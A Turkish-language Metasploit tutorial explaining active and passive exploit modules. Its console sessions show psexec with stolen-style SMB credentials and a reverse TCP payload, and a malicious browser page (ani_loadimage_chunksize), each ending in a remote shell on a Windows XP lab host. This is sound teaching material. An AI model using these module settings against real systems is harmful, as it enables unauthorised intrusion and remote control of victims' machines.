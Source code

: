 ```yaml
---
draft: false

title:  'MSF İçinde Exploit Çeşitleri?'
date: '2017-05-13T12:34:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework içerisinde tüm exploit modülleri\_aktif\_ve\_pasif\_olarak gruplandırılırlar. 
Aktif Exploit 
Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar." 
 
url:  /tr/msf-icinde-exploit-cesitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.



## Aktif Exploit



Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.



Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.



Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.


```bash
msf exploit**(**ms08_067_netapi**)** **&gt;** exploit -j
**[*********]** Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** **&gt;**
```



**Örnek**



Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.


```bash
msf **&gt;** use exploit/windows/smb/psexec
msf exploit**(**psexec**)** **&gt;** set RHOST 192.168.1.100
RHOST **=&gt;** 192.168.1.100
msf exploit**(**psexec**)** **&gt;** set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=&gt;** windows/shell/reverse_tcp
msf exploit**(**psexec**)** **&gt;** set LHOST 192.168.1.5
LHOST **=&gt;** 192.168.1.5
msf exploit**(**psexec**)** **&gt;** set LPORT 4444
LPORT **=&gt;** 4444
msf exploit**(**psexec**)** **&gt;** set SMBUSER victim
SMBUSER **=&gt;** victim
msf exploit**(**psexec**)** **&gt;** set SMBPASS s3cr3t
SMBPASS **=&gt;** s3cr3t
msf exploit**(**psexec**)** **&gt;** exploit

**[*********]** Connecting to the server...
**[*********]** Started reverse handler
**[*********]** Authenticating as user 'victim'...
**[*********]** Uploading payload...
**[*********]** Created \hikmEeEM.exe...
**[*********]** Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
**[*********]** Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
**[*********]** Obtaining a service manager handle...
**[*********]** Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
**[*********]** Closing service handle...
**[*********]** Opening service...
**[*********]** Starting the service...
**[*********]** Removing the service...
**[*********]** Closing service handle...
**[*********]** Deleting \hikmEeEM.exe...
**[*********]** Sending stage **(**240 bytes**)**
**[*********]** Command shell session 1 opened **(**192.168.1.5:4444 -&gt; 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32&gt;
```



## Pasif Exploit



Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.



Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.



Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.


```bash
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -&gt; 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** **&gt;** sessions -i 1
**[*********]** Starting interaction with 1...

meterpreter **&gt;**
```



**Örnek**



Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.


```bash
msf **&gt;** use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set URIPATH /
URIPATH **=&gt;** /
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=&gt;** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set LHOST 192.168.1.5
LHOST **=&gt;** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set LPORT 4444
LPORT **=&gt;** 4444
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** exploit
**[*********]** Exploit running as background job.

**[*********]** Started reverse handler
**[*********]** Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
**[*********]**  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
**[*********]** Server started.
msf exploit**(**ani_loadimage_chunksize**)** **&gt;**
**[*********]** Attempting to exploit ani_loadimage_chunksize
**[*********]** Sending HTML page to 192.168.1.100:1077...
**[*********]** Attempting to exploit ani_loadimage_chunksize
**[*********]** Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
**[*********]** Sending stage **(**240 bytes**)**
**[*********]** Command shell session 2 opened **(**192.168.1.5:4444 -&gt; 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** **&gt;** sessions -i 2
**[*********]** Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop&gt;
```



Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.



## Video Anlatım


<!-- wp:embed {"url":"https://youtu.be/liQEKnvzhQE","type":"video","providerNameSlug":"youtube","responsive":true,"className":"wp-embed-aspect-16-9 wp-has-aspect-ratio"} -->
<figure class="wp-block-embed is-type-video is-provider-youtube wp-block-embed-youtube wp-embed-aspect-16-9 wp-has-aspect-ratio"><div class="wp-block-embed__wrapper">
https://youtu.be/liQEKnvzhQE
</div></figure>
<!-- /wp:embed -->